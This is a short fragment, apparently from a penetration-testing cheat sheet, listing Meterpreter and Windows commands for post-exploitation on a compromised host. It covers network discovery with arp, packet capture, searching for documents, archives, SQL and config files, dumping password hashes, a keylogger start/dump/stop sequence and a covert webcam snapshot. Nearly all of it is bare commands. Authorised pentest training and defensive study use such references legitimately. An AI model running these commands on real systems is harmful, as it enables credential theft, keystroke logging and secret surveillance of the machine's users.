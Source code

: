 ```bash
# What other machines have been connected
arp -a
```
### Tcpdump
```bash
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```
### Interesting files
```bash
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql
hashdump
keysscan_start
keyscan_dump
keyscan_stop
webcam_snap

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```
